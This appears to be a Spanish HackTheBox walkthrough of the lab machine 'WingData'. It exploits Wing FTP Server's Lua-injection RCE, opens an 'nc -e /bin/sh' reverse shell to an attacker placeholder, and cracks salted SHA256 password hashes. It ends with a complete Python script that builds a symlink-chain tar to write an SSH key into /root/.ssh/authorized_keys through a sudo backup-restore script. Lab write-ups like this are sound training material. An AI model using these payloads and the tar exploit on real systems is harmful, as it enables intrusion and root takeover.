







# WingData HackTheBox (Easy)

## Contexto de la maquina

### Trayectoria WingData

<figure><figcaption></figcaption></figure>

### Descripción

**WingData** es una máquina Linux que combina explotación web y escalada de privilegios mediante abuso de funcionalidades mal implementadas. El vector inicial consiste en explotar una vulnerabilidad crítica en **Wing FTP Server v7.4.3**, permitiendo ejecución remota de código (RCE). Posteriormente, la escalada de privilegios se logra mediante el abuso de un script ejecutable con `sudo` que restaura backups usando `tar`, lo que habilita una técnica de escritura arbitraria a través de symlinks.

**Objetivo del reto**

* Obtener acceso inicial mediante explotación web.
* Escalar privilegios hasta usuario válido del sistema.
* Abusar de permisos `sudo` para obtener acceso root.
* Recuperar las flags `user.txt` y `root.txt`.

**Tipo de máquina**

* Linux
* Web exploitation
* Privilege Escalation (sudo abuse + tar symlink chain)

**Habilidades y técnicas evaluadas**

* Enumeración de servicios
* Análisis de subdominios
* Explotación de RCE en software vulnerable
* Cracking de hashes con salt
* Análisis de scripts Python ejecutados con privilegios elevados
* Explotación de extracción insegura con `tar`
* Escalada de privilegios mediante escritura arbitraria

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-15 03:36 -0500
Nmap scan report for 10.129.6.87
Host is up (1.00s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:fa:95:8b:d7:56:03:85:e4:45:c9:c7:1e:ba:28:3b (ECDSA)
|_  256 9c:ba:21:1a:97:2f:3a:64:73:c1:4c:1d:ce:65:7a:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.66
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Did not follow redirect to http://wingdata.htb/
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.73 seconds
```

Observamos **dos servicios expuestos**:

* **22/tcp** → SSH
* **80/tcp** → HTTP (Apache)

El servicio web redirige automáticamente a:

```
http://wingdata.htb/
```

Por lo tanto, añadimos el dominio a nuestro archivo `/etc/hosts`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>           wingdata.htb
```

## Enumeración Web

Accedemos a:

```
URL = http://wingdata.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

La página aparenta ser un portal corporativo legítimo. Sin embargo, al analizar los enlaces, observamos que el botón **Client Portal** redirige a un subdominio:

```
ftp.wingdata.htb
```

Añadimos el subdominio al archivo `hosts`:

```shell
nano /etc/hosts

#Dentro del nano
<IP>           wingdata.htb ftp.wingdata.htb
```

Guardamos los cambios y accedemos al botón que nos redirige al subdominio para analizar qué servicio está expuesto.

Al hacerlo, nos encontramos con un panel de autenticación bastante interesante. En la parte inferior del login se indica claramente:

```
Wing FTP Server v7.4.3
```

<figure><figcaption></figcaption></figure>

Este detalle es especialmente relevante, ya que conocer la versión exacta del software nos permite buscar vulnerabilidades específicas asociadas a la misma.

Tras investigar, encontramos que dicha versión es vulnerable a:

```
CVE-2025-47812
```

Se trata de una vulnerabilidad que permite **Remote Code Execution (RCE)** mediante una combinación de bypass de autenticación e inyección de código Lua.

<figure><figcaption></figcaption></figure>

***

> Info de la vulnerabilidad.

1. **Truncamiento por Byte Nulo en c\_CheckUser():**\
   La función `c_CheckUser()`, encargada de la autenticación de usuarios, usa internamente `strlen()` sobre el nombre de usuario proporcionado. Cuando se inyecta un byte nulo (`%00`) en el nombre de usuario (por ejemplo, `anonymous%00...`), `strlen()` trunca la cadena en ese punto. Esto significa que la autenticación tiene éxito para la parte del nombre de usuario anterior al byte nulo, evadiendo efectivamente la validación adecuada.
2. **Nombre de Usuario Completo en la Creación de la Sesión:**\
   A pesar del truncamiento en la autenticación, la llamada `rawset(_SESSION, "username", username)` dentro de `loginok.html` usa el nombre de usuario completo sin desinfectar, directamente desde los parámetros GET o POST. Esto incluye el byte nulo y cualquier carácter posterior.
3. **Inyección de Código Lua:**\
   Dado que los archivos de sesión se almacenan como scripts Lua, inyectar código Lua después del byte nulo en el nombre de usuario (por ejemplo, `anonymous%00]]%0dlocal+h+%3d+io.popen("id")%0dlocal+r+%3d+h%3aread("*a")%0dh%3aclose()%0dprint(r)%0d--`) hace que este código malicioso se escriba directamente en el archivo de sesión.
4. **Ejecución del Archivo de Sesión:**\
   La función `SessionModule.load()`, invocada cuando se accede a cualquier funcionalidad autenticada (como `/dir.html`), ejecuta directamente el archivo de sesión usando `loadfile(filepath)` seguido de `f()`. Este paso crucial activa el código Lua inyectado, lo que lleva a la Ejecución Remota de Código.

***

## Explotación

Encontré un PoC funcional en el siguiente repositorio:

URL = [Exploit CVE-2025-47812 PoC](https://github.com/4m3rr0r/CVE-2025-47812-poc)

Utilizamos el exploit para validar la vulnerabilidad:

```shell
python3 CVE-2025-47812.py -u "http://ftp.wingdata.htb/" -c 'whoami'
```

Respuesta:

```
[*] Testing target: http://ftp.wingdata.htb/
[+] Sending POST request to http://ftp.wingdata.htb//loginok.html with command: 'whoami' and username: 'anonymous'
[+] UID extracted: e77ea85d048706d8fa051457c5a8d502f528764d624db129b32c21fbca0cb8d6
[+] Sending GET request to http://ftp.wingdata.htb//dir.html with UID: e77ea85d048706d8fa051457c5a8d502f528764d624db129b32c21fbca0cb8d6

--- Command Output ---
wingftp
----------------------
```

Observamos que, incluso utilizando el usuario `anonymous`, el exploit funciona correctamente. Esto confirma que podemos ejecutar comandos arbitrarios en el servidor como usuario `wingftp`.

## Reverse Shell

Para obtener una shell interactiva, primero nos ponemos en escucha:

```shell
nc -lvnp <PORT>
```

Ejecutamos el exploit con un payload sencillo de reverse shell (evitando caracteres problemáticos que puedan romper la inyección):

```shell
python3 CVE-2025-47812.py -u "http://ftp.wingdata.htb/" -c "nc -e /bin/sh <IP_ATTACKER> <PORT>"
```

En nuestra terminal de escucha recibimos la conexión:

```
listening on [any] 7777 ...
connect to [10.10.14.192] from (UNKNOWN) [10.129.6.228] 37490
whoami
wingftp
```

Confirmamos que la ejecución remota ha sido exitosa.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user wacky

Si navegamos al directorio `/opt`, encontraremos un subdirectorio bastante interesante:

<figure><figcaption></figcaption></figure>

Este directorio corresponde a la instalación del servicio FTP comprometido, por lo que es un candidato claro para buscar información sensible como credenciales almacenadas.

Procedemos a buscar posibles hashes dentro del árbol de directorios utilizando un patrón que detecte cadenas hexadecimales típicas de MD5, SHA1, SHA256 o SHA512:

```shell
cd /opt/wftpserver
find . -type f -exec grep -E -l "[a-f0-9]{32}|[a-f0-9]{40}|[a-f0-9]{64}|[a-f0-9]{128}" {} \;
```

Respuesta:

```
./Data/_ADMINISTRATOR/admins.xml
./Data/1/users/maria.xml
./Data/1/users/steve.xml
./Data/1/users/wacky.xml
./Data/1/users/anonymous.xml
./Data/1/users/john.xml
./wftpserver
./wftpconsole
./lua/SessionModuleAdmin.lua
./lua/SessionModule.lua
./webadmin/help/english/zoom_index.js
./webadmin/help/english/server_variables.htm
./webclient/pdfjs-dist/build/pdf.worker.js.map
./webclient/pdfjs-dist/build/pdf.js.map
./webclient/webuploader/webuploader.min.js
```

Observamos que varios archivos XML correspondientes a usuarios contienen valores con formato hash. Esto es especialmente relevante, ya que probablemente se trate de hashes de contraseñas almacenadas por el servidor.

Aunque aparecen otros archivos con cadenas similares, nos centramos en los que están directamente relacionados con usuarios.

### Extracción de hashes

Para extraer únicamente los valores hash:

```shell
# Mostrar unicamente los hashes
find . -type f -exec grep -E -o "[a-f0-9]{32}|[a-f0-9]{40}|[a-f0-9]{64}" {} \; 2>/dev/null

# Mostrar los hashes junto al nombre del archivo que lo contiene
find . -type f -exec grep -E -H -o "[a-f0-9]{32}|[a-f0-9]{40}|[a-f0-9]{64}" {} \; 2>/dev/null
```

Respuesta:

```
./Data/_ADMINISTRATOR/admins.xml:a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba
./Data/1/users/maria.xml:a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03
./Data/1/users/steve.xml:5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca
./Data/1/users/wacky.xml:32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca
./Data/1/users/anonymous.xml:d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca
./Data/1/users/john.xml:c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10
./lua/SessionModuleAdmin.lua:f528764d624db129b32c21fbca0cb8d6
./lua/SessionModule.lua:f528764d624db129b32c21fbca0cb8d6
./webadmin/help/english/zoom_index.js:d197da4875af58340c98fe196b5195f3
./webadmin/help/english/server_variables.htm:d197da4875af58340c98fe196b5195f3
./webclient/pdfjs-dist/build/pdf.worker.js.map:0aee4434a4dba42a42abaea9bfbc0cd196a63bc1
./webclient/pdfjs-dist/build/pdf.worker.js.map:81b14aafa313db63dbd6f981e49f94f4
./webclient/pdfjs-dist/build/pdf.js.map:2e231cf052ca5e68e22baf0008ac9e5e29121707
./webclient/pdfjs-dist/build/pdf.js.map:58ab4a971b06dec13e4edf9de8382ca6847f6190
./webclient/pdfjs-dist/build/pdf.js.map:0aee4434a4dba42a42abaea9bfbc0cd196a63bc1
./webclient/pdfjs-dist/build/pdf.js.map:16451d8836fa85f4b16eeda8b4bda2fa9e2b22b0
./webclient/pdfjs-dist/build/pdf.js.map:7e2e35a38b8b4e981b11da7b2f01df0149049e92
./webclient/pdfjs-dist/build/pdf.js.map:4a590a5a15e35d88a3b23dd6ac3c471cf85b04a8
./webclient/webuploader/webuploader.min.js:5d41402abc4b2a76b9719d911017c592
```

Nos quedamos con los hashes de los usuarios y los almacenamos en un archivo llamado `hash`:

> hash

```
admin:a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba
maria:a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03
steve:5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca
wacky:32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca
anonymous:d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca
john:c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10
```

### Intento de crackeo inicial

Dado que los hashes tienen 64 caracteres hexadecimales, asumimos que se trata de SHA256.

Probamos:

```shell
john --format=Raw-SHA256 --wordlist=<WORDLIST> hash
```

Sin embargo, no obtenemos resultados. Esto sugiere que el esquema de almacenamiento no es SHA256 simple, sino que probablemente incluya un **salt** adicional.

### Identificación del salt

Para confirmar si los hashes identificados utilizan algún mecanismo adicional de protección, buscamos referencias a _salting_ dentro de los archivos XML del servicio:

```shell
grep -i "salt" $(find . -name "*.xml") 2>/dev/null
```

Respuesta:

```
./Data/1/settings.xml:    <EnablePasswordSalting>1</EnablePasswordSalting>
./Data/1/settings.xml:    <SaltingString>WingFTP</SaltingString>
```

Aquí podemos observar dos puntos clave:

* El _salting_ está habilitado (`EnablePasswordSalting = 1`).
* El valor del _salt_ utilizado es `WingFTP`.

Esto confirma que los hashes no son simplemente `SHA256(password)`, sino que incorporan un _salt_ estático definido por la aplicación. Por lo tanto, el formato real del hash es:

```
SHA256(password + salt)
```

En este caso:

```
SHA256(password + "WingFTP")
```

## Preparación del formato para cracking

Para poder crackear correctamente los hashes con `john`, debemos adaptar el formato al esquema correspondiente.\
Sabemos que:

* Es un `SHA256`
* Se aplica como `sha256($p.$s)` (password + salt)

El formato dinámico adecuado en John es `dynamic_62`.

Creamos un archivo preparado con el formato correcto:

> hashes\_john.txt

```
$dynamic_62$a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba$WingFTP
$dynamic_62$a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03$WingFTP
$dynamic_62$5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca$WingFTP
$dynamic_62$32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca$WingFTP
$dynamic_62$d67f86152e5c4df1b0ac4a18d3ca4a89c1b12e6b748ed71d01aeb92341927bca$WingFTP
$dynamic_62$c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10$WingFTP
```

Ejecutamos nuevamente el proceso de cracking:

```shell
john --format=dynamic_62 hashes_john.txt --wordlist=<WORDLIST>
```

Respuesta:

```
Using default input encoding: UTF-8
Loaded 6 password hashes with no different salts (dynamic_62 [sha256($p.$s) 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (?)     
!#7Blushing^*Bride5 (?)     
2g 0:00:00:01 DONE (2026-02-15 07:42) 1.526g/s 10949Kp/s 10949Kc/s 54752KC/s !JD021803..*7¡Vamos!
Use the "--show --format=dynamic_62" options to display all of the cracked passwords reliably
Session completed.
```

Observamos que el cracking ha sido exitoso y hemos recuperado una contraseña válida:

```
!#7Blushing^*Bride5
```

## Acceso por SSH como wacky

Dado que el usuario `wacky` existe a nivel de sistema, probamos autenticación por SSH con las credenciales obtenidas:

```shell
ssh wacky@<IP>
```

Metemos como contraseña `!#7Blushing^*Bride5`...

```
The authenticity of host '10.129.6.228 (10.129.6.228)' can't be established.
ED25519 key fingerprint is: SHA256:JacnW6dsEmtRtwu2ULpY/CK8n/8M9tU+6pQhjBG3a4w
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.6.228' (ED25519) to the list of known hosts.
wacky@10.129.6.228's password: 
Linux wingdata 6.1.0-42-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.159-1 (2025-12-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 15 07:46:49 2026 from 10.10.14.192
wacky@wingdata:~$ whoami
wacky
```

El acceso es exitoso. Ya contamos con una sesión interactiva válida en el sistema como el usuario `wacky`.

> user.txt

```
1ee3ad44bc2d1619576d80cdf8b0e08f
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for wacky on wingdata:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wacky may run the following commands on wingdata:
    (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

Esto es especialmente interesante.

Podemos ejecutar como `root`, sin contraseña, el script:

```
/opt/backup_clients/restore_backup_clients.py
```

pasándole cualquier argumento.

#### ¿Por qué es crítico?

* El script se ejecuta con privilegios de `root`.
* Nosotros controlamos completamente los argumentos.
* El script procesa archivos `.tar`.
* Si conseguimos que escriba fuera de su directorio previsto → podríamos lograr **arbitrary file write como root**.

Este escenario representa una superficie de ataque clara para escalar privilegios.

## Análisis del script

> restore\_backup\_clients.py

```python
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse

BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"

def validate_backup_name(filename):
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):
        return False
    client_id = filename.split('_')[1].rstrip('.tar')
    return client_id.isdigit() and client_id != "0"

def validate_restore_tag(tag):
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))

def main():
    parser = argparse.ArgumentParser(
        description="Restore client configuration from a validated backup tarball.",
        epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
    )
    parser.add_argument(
        "-b", "--backup",
        required=True,
        help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_<client_id>.tar, "
             "where <client_id> is a positive integer, e.g., backup_1001.tar)"
    )
    parser.add_argument(
        "-r", "--restore-dir",
        required=True,
        help="Staging directory name for the restore operation. "
             "Must follow the format: restore_<client_user> (e.g., restore_john). "
             "Only alphanumeric characters and underscores are allowed in the <client_user> part (1–24 characters)."
    )

    args = parser.parse_args()

    if not validate_backup_name(args.backup):
        print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
        sys.exit(1)

    backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
    if not os.path.isfile(backup_path):
        print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
        sys.exit(1)

    if not args.restore_dir.startswith("restore_"):
        print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
        sys.exit(1)

    tag = args.restore_dir[8:]
    if not tag:
        print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
        sys.exit(1)

    if not validate_restore_tag(tag):
        print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
        sys.exit(1)

    staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
    print(f"[+] Backup: {args.backup}")
    print(f"[+] Staging directory: {staging_dir}")

    os.makedirs(staging_dir, exist_ok=True)

    try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
        print(f"[+] Extraction completed in {staging_dir}")
    except (tarfile.TarError, OSError, Exception) as e:
        print(f"[!] Error during extraction: {e}", file=sys.stderr)
        sys.exit(2)

if __name__ == "__main__":
    main()
```

A simple vista vemos que el script:

1. Solo acepta backups con formato:

```bash
backup_<id>.tar
```

2. Construye la ruta del backup usando:

```python
backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
```

3. Extrae el contenido del `.tar` en:

```
/opt/backup_clients/restored_backups/<restore_dir>
```

mediante:

```python
tar.extractall(path=staging_dir, filter="data")
```

**Punto interesante**

Aunque utiliza:

```python
filter="data"
```

para prevenir path traversal clásicos (`../` y rutas absolutas), **sí permite enlaces simbólicos dentro del tar**.

Esto abre la puerta a un bypass mediante una cadena de symlinks que termine escribiendo fuera del directorio de extracción.

En otras palabras:

Si conseguimos que tar, ejecutándose como root, escriba en una ruta arbitraria → tenemos **arbitrary file write como root**.

Nuestro objetivo será:

```
/root/.ssh/authorized_keys
```

para poder autenticarnos por SSH como root.

### Creación del exploit

Antes vamos a generar una clave publica de nuestro atacante para posteriormente podernos conectar con nuestra clave privada desde nuestra maquina atacante.

```shell
ssh-keygen -t rsa -b 4096
```

Una vez creada la clave, copiaremos el contenido de la `id_rsa.pub` y la pegaremos en la parte del `script` donde pone `ssh_key`.

```shell
cat ~/.ssh/id_rsa.pub
```

> exploit.py

```python
#!/usr/bin/env python3
import tarfile
import os
import io
import sys

print("[*] Creando exploit para CVE-2025-12060 (versión symlink)")
print("[*] Objetivo: /root/.ssh/authorized_keys")

ssh_key = "<ID_RSA.PUB ATTACKER>"

comp = 'd' * 247
steps = "abcdefghijklmnop"
path = ""

with tarfile.open("/tmp/exploit/backup_1337.tar", mode="w") as tar:
    print("[*] Construyendo cadena de symlinks...")
    
    # PASO 1-3: Igual que antes (estructura profunda y symlink escape)
    for i in steps:
        a = tarfile.TarInfo(os.path.join(path, comp))
        a.type = tarfile.DIRTYPE
        tar.addfile(a)
        
        b = tarfile.TarInfo(os.path.join(path, i))
        b.type = tarfile.SYMTYPE
        b.linkname = comp
        tar.addfile(b)
        
        path = os.path.join(path, comp)
    
    linkpath = os.path.join("/".join(steps), "l" * 254)
    l = tarfile.TarInfo(linkpath)
    l.type = tarfile.SYMTYPE
    l.linkname = ("../" * len(steps))
    tar.addfile(l)
    
    # Symlink "escape" a /root/.ssh/
    e = tarfile.TarInfo("escape")
    e.type = tarfile.SYMTYPE
    e.linkname = linkpath + "/../../../../../root/.ssh/"
    tar.addfile(e)
    print("[*] Creado symlink 'escape'")
    
    # PASO 4: Crear UN SYMLINK llamado "authorized_keys" que apunte al destino final
    # En lugar de hardlink, usamos symlink
    auth_link = tarfile.TarInfo("authorized_keys")
    auth_link.type = tarfile.SYMTYPE
    auth_link.linkname = "escape/authorized_keys"  # Symlink, no hardlink
    tar.addfile(auth_link)
    print("[*] Creado symlink 'authorized_keys' -> escape/authorized_keys")
    
    # PASO 5: Crear el archivo REAL en escape/authorized_keys (esto seguirá el symlink)
    # IMPORTANTE: El nombre debe ser "escape/authorized_keys" para que siga el symlink
    content = ssh_key.encode()
    real_file = tarfile.TarInfo("escape/authorized_keys")
    real_file.type = tarfile.REGTYPE
    real_file.size = len(content)
    tar.addfile(real_file, fileobj=io.BytesIO(content))
    print("[*] Creado archivo real en escape/authorized_keys (seguirá el symlink)")

print("[+] Exploit creado")
```

#### Qué hace el exploit

El script no crea un tar normal.

Construye una estructura específicamente diseñada para:

1. Evadir las protecciones de `extractall`
2. Escapar del directorio de extracción
3. Escribir en `/root/.ssh/authorized_keys`

#### Cadena de directorios profunda

```python
comp = 'd' * 247
```

Se crean rutas extremadamente largas para forzar una resolución de paths compleja y evitar que el filtro detecte correctamente el escape.

Cada iteración:

* Crea un directorio real
* Crea un symlink que apunta al siguiente nivel

Esto construye una cadena de resolución que finalmente nos permite hacer el “escape”.

#### Symlink de escape

```python
e.linkname = linkpath + "/../../../../../root/.ssh/"
```

Este symlink apunta fuera del directorio de extracción hacia:

```
/root/.ssh/
```

#### Redirección de authorized\_keys

Creamos primero un symlink:

```
authorized_keys → escape/authorized_keys
```

y después el archivo real:

```
escape/authorized_keys
```

Cuando tar extrae:

1. Sigue el symlink
2. Llega a `/root/.ssh/authorized_keys`
3. Escribe nuestra clave pública

Todo esto ejecutándose como **root**.

### Generamos el payload

```shell
python3 exploit.py
```

Respuesta:

```
[*] Creando exploit para CVE-2025-12060 (versión symlink)
[*] Objetivo: /root/.ssh/authorized_keys
[*] Construyendo cadena de symlinks...
[*] Creado symlink 'escape'
[*] Creado symlink 'authorized_keys' -> escape/authorized_keys
[*] Creado archivo real en escape/authorized_keys (seguirá el symlink)
[+] Exploit creado
```

Esto nos genera el tar malicioso:

```
backup_1337.tar
```

Colocamos el backup donde lo espera el script:

```shell
mv backup_1337.tar /opt/backup_clients/backups/backup_1001.tar
```

Usamos ese nombre porque cumple la validación:

```
backup_<id>.tar
```

Ejecutamos el restore como root:

```shell
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_1001.tar -r restore_hack_fresh2
```

Respuesta:

```
[+] Backup: backup_1001.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_hack_fresh2
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_hack_fresh2
```

Aunque la salida parece normal, en este punto ya ha ocurrido lo importante:

Se ha escrito nuestra clave pública en:

```
/root/.ssh/authorized_keys
```

Ahora sabiendo esto vamos acceder desde nuestra maquina atacante con nuestra `id_rsa` privada mediante el usuario `root` a la maquina victima, ya que tiene nuestra `id_rsa.pub` dentro de `root` de la maquina victima.

```shell
ssh -i ~/.ssh/id_rsa root@<IP>
```

